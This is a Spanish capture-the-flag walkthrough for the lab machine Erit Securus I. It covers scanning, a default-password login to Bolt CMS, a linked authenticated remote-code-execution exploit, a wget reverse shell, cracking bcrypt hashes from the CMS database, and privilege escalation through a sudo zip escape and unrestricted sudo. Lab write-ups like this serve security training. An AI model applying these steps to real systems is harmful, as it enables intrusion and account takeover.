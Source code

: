 # Erit Securus I
## Initial Scan
```
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b1:ac:a9:92:d3:2a:69:91:68:b4:6a:ac:45:43:fb:ed (DSA)
|   2048 3a:3f:9f:59:29:c8:20:d7:3a:c5:04:aa:82:36:68:3f (RSA)
|   256 f9:2f:bb:e3:ab:95:ee:9e:78:7c:91:18:7d:95:84:ab (ECDSA)
|_  256 49:0e:6f:cb:ec:6c:a5:97:67:cc:3c:31:ad:94:a4:54 (ED25519)
80/tcp open  http    nginx 1.6.2
|_http-generator: Bolt
|_http-server-header: nginx/1.6.2
|_http-title: Graece donan, Latine voluptatem vocant. | Erit Securus 1
```
## Enum 
### HTTP
Con wappalyzer podemos ver que tenemos un Bolt CMS el cual tiene varias vulns conocidas:
```
Bolt CMS 3.6.10 - Cross-Site Request Forgery                                                                     | php/webapps/47501.txt
Bolt CMS 3.6.4 - Cross-Site Scripting                                                                            | php/webapps/46495.txt
Bolt CMS 3.6.6 - Cross-Site Request Forgery / Remote Code Execution                                              | php/webapps/46664.html
Bolt CMS 3.7.0 - Authenticated Remote Code Execution                                                             | php/webapps/48296.py
Bolt CMS < 3.6.2 - Cross-Site Scripting                                                                          | php/webapps/46014.txt
```
No tenemos creds pero admin:pasword funcionan perfectamente en el endpoint de administración, gracias a ello sabemos que la versión es la 3.7, probemos esta version del script para la 3.7 (la de exploitdb no va bien)
```
https://raw.githubusercontent.com/r3m0t3nu11/Boltcms-Auth-rce-py/master/exploit.py
```
El handler del exploit falla mas que una escopeta de feria pero te sube una reverse shell usable en cada uno de los test, que podemos usar sin el propio script, una vez tenemos un test vamos a el mismo y obtenemos mediante la ejecucion de wget una reverse shell completa.

## Privesc
### Willec 
Enumerando encontramos la base de datos de bolt manejamos esa mediante sqlite y hacemos la siguiente querry:
```
1|admin|$2y$10$lFIIlzYOrJMHbLZB.kVS2eF4Iezyrt/FfyZqDd0ZukJ7IGKtLUf16||0|a@a.com|2020-09-14 01:10:52|192.168.100.1|[]|1|||||["root","everyone"]
2|wildone|$2y$10$ZZqbTKKlgDnCMvGD2M0SxeTS3GPSCljXWtd172lI2zj3p6bjOCGq.|Wile E Coyote|0|wild@one.com|2020-04-25 16:03:44|192.168.100.1|[]|1|||||["editor"]
```
Si crackeamos la pass de wildone es snickers, esta pass es valida para el usuario wileec en la máquina , podemos hacer su a este y usar su clave ssh para conectarnos a la IP que tenemos de la db
### jsmith
```
User wileec may run the following commands on Securus:
    (jsmith) NOPASSWD: /usr/bin/zip
```
Ejecutamos lo siguiente:
```
TF=$(mktemp -u)
sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'
```
Y ya tenemos shell como jsmith
### Root
```
User jsmith may run the following commands on Securus:
    (ALL : ALL) NOPASSWD: ALL
```
Ejecutamos esto:
```
sudo -s
```
Y ya tenemos shell como root
